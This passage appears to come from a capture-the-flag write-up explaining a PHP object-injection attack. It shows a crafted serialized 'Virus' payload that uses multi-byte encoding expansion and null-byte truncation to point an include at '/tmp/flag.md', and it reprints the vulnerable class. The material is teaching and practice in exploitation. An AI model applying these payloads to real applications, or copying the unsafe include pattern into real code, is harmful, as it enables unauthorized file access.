 According to the `mb_convert_encoding()` documentation, the syntax is:
```php
mb_convert_encoding(array|string $string, string $to_encoding, array|string|null $from_encoding = null): array|string|false
```

So after serialization, it converts the serialized payload from `ISO-8859-1` to `UTF-8`.
In `ISO-8859-1`, there is a character `ÿ` which is `0xFF` in Latin-1 becomes `Ã¿`. This expands the character count from 1 to 2.

The value after the `s:` tells the serializer how long the value is. Let's take the following serialized payload below as an example.
```json
O:5:"Virus":3:{s:4:"name";s:35:"x";s:7:"species";s:13:"/tmp/flag.md";s:7:"species";s:9:"Ghostroot";s:13:"valid_species";a:4:{i:0;s:9:"Ghostroot";i:1;s:9:"IronHydra";i:2;s:11:"DarkFurnace";i:3;s:9:"Voltspike";}}
```

You would expect `s:4:"name";s:35:"x";` to covert to `$name = "x"`. However, the length is defined as **35**. Thus, instead of that, it will set the `$name` value to:
```
%27";s:7:"species";s:13:"/tmp/flag.md
```

However, even if we did make use of the multi-byte exploit, there is still the issue of double definitions of fields. From the same serialized payload above, you can see that `species` is defined **twice**.

We can make use of `\x00` (`%00`) null bytes. The string after the null bytes will get removed. Why does this happen? This is because the PBO escaping quotes step as a by-product of escaping single-quotes also removed and parsed the null byte (I am not sure how this works but this is what I observed during testing.
```php
$quoted = $this->pdo->quote($ser);
```

So for the payload `hi%00`, we will end up with the string.
```json
O:5:"Virus":3:{s:4:"name";s:3:"hi
```
*note: I removed single-quotes for visual purposes*

```php
class Virus
{
    public $name;
    public $species;
    public $valid_species = ["Ghostroot", "IronHydra", "DarkFurnace", "Voltspike"];

    public function __construct(string $name, string $species)
    {
        $this->name = $name;
        $this->species = in_array($species, $this->valid_species) ? $species : throw new Exception("That virus is too dangerous to store here: " . htmlspecialchars($species));
    }

    public function printInfo()
    {
        echo "Name: " . htmlspecialchars($this->name) . "<br>";
        include $this->species . ".txt";
    }
}
```
